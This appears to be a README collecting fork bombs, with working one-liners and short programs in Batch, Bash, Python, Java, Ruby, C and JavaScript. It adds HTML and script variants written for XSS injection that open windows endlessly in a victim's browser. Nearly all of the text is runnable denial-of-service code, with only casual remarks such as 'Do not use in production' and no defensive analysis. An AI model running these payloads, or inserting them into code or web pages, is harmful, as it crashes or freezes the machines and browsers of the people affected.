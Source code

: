 ### Bat
```
%0 | %0
```

Quick and dirty forkbomb for all flavors of windows Do not use in production. Replace start with a command of your choice, this will just open a new command prompt and is pretty tricky to stop once started
```
for /l %a in (0,0,0) do start
```
### Bash
```
:(){ :|:& };:
```

### Python
```
 import os
 while 1:
     os.fork()
```

### Java
```
public class ForkBomb
{
  public static void main(String[] args)
  {
    while(true)
    {
      Runtime.getRuntime().exec(new String[]{"javaw", "-cp", System.getProperty("java.class.path"), "ForkBomb"});
    }
  }
}
```

### Ruby
```
loop { fork { load(__FILE__) } }
```

### C
```
#include <unistd.h>

int main(void)
{
    while(1) {
      fork(); /* malloc can be used in order to increase the data usage */
    }
}
```

### JavaScript
```
while (true) {
  var w = window.open();
  w.document.write(document.documentElement.outerHTML||document.documentElement.innerHTML);
}
```

The following version is easier for injection (XSS):
```
<a href="#" onload="function() { while (true) { var w = window.open(); w.document.write(document.documentElement.outerHTML||document.documentElement.innerHTML); } }">XSS fork bomb</a>
```
And the following is simply a more aggressive version of the above:
```
<script>
setInterval(function() {
  var w = window.open();
  w.document.write(document.documentElement.outerHTML||document.documentElement.innerHTML);
}, 10);
</script>
```

